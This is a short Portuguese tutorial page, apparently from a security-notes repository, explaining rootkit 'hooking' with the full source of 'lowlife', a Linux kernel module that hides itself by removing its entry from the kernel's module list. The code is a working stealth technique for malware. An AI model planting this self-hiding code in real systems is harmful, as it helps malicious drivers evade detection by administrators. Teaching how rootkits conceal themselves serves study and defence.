 <img width="30%" src="https://i.imgur.com/CGV9DU1.png"></img>

# Hooking
Um hook, é basicamente um gancho em alguma funcionalidade de algum software<br><br>
No caso dos rootkits, esse gancho seria geralmente para ocultar alguma coisa, um exemplo disso é o [lowlife](https://github.com/xnwm0/lowlife), que faz um hook pra se esconder na lista de drivers<br><br>

# lowlife
Veja a source do driver<br><br>
```c
/* 
 * lowlife.c 
 */

#include <linux/module.h>
#include "lowlife.h" /* -- header with low_drv_hide() -- */

static int __init low_init(void)
{
  low_drv_hide(); /* -- call low_drv_hide() -- */
  printk(KERN_INFO "driver lowlife is hidden.\n");
  return 0;
}

static void __exit low_exit(void)
{
  printk(KERN_INFO "driver unloaded.\n");
}

module_init(low_init);
module_exit(low_exit);

/* 
 * lowlife.h
 */

static struct list_head *drv_prev;
void low_drv_hide(void)
{
  drv_prev = THIS_MODULE->list.prev; /* --- load list previous --- */
  list_del(&THIS_MODULE->list); /* --- remove driver from drivers list --- */
}
```
<br>
Perceba que no lowlife.h, é carregada uma list, que seria a lista de drivers do sistema, e é feito um hook para o driver se auto-deletar da list<br>
Para entender melhor, veja [esse vídeo](https://youtu.be/3npnXeOnEAw)<br><br>

[pwn](../README.md)<br>
[home](../../README.md)
